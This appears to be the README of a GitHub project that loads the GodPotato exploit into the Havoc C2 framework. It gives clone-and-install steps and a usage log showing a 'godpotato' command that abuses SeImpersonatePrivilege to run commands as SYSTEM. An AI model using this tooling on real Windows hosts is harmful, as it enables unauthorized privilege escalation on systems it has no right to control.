

# GodPotato script for Havoc C2


```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF
```


## Description
This script is intended to facilitate usage of GodPotato exploit using Havoc `DotnetInlineExecute` feature.

## Installation
1. `git clone https://github.com/xl00t/Havoc-GodPotato && cd Havoc-GodPotato/`
2. `bash install.sh`
3. 
4. Click script manager
5. Click load script
6. And then choose GodPotato.py file.


## Usage
```
21/12/2023 17:50:09 [xl00t] Demon » help godpotato

 - Command       :  godpotato
 - Description   :  Inline Execute GodPotato in order to abuse SeImpersonatePrivilege and run commands as SYSTEM
 - Usage         :  godpotato -cmd "cmd /c command"
 - Example       :  godpotato -cmd "cmd /c whoami"
```